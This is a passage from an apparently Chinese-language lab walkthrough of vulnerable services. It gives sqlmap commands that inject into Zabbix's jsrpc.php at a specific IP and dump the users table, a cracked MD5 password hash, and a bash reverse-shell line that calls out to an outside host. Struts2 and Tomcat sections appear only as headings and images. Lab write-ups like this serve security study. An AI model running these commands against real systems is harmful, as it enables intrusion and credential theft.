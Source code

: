 ```
python sqlmap.py "http://212.129.238.18:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=s" 
-p profileIdx2 -D zabbix --tables
```

![image-20220306160504925](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203061605045.png)

#### 4、查看users表

```
python sqlmap.py "http://212.129.238.18:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=s" 
-p profileIdx2 -D zabbix -T users -dump
```

![image-20220306160653724](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203061606768.png)

#### 5、md5 破解

```
5fce1b3e34b520afeffb37ce08c7cd66  密码 zabbix
```

![image-20220306160817736](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203061608796.png)

![image-20220306160925345](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203061609430.png)

**成功登陆**

### 5、后台Get shell

```
bash -i >& /dev/tcp/106.13.216.34/888 0>&1
```

![image-20220306162332620](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203061623770.png)

![在这里插入图片描述](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203061624698.png)

## struts2/s2-046

![image-20220306173401892](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203061734768.png)

使用工具

![image-20220306173417136](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203061734278.png)

执行命令

![image-20220306173433418](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202203061734486.png)

## tomcat/tomcat8
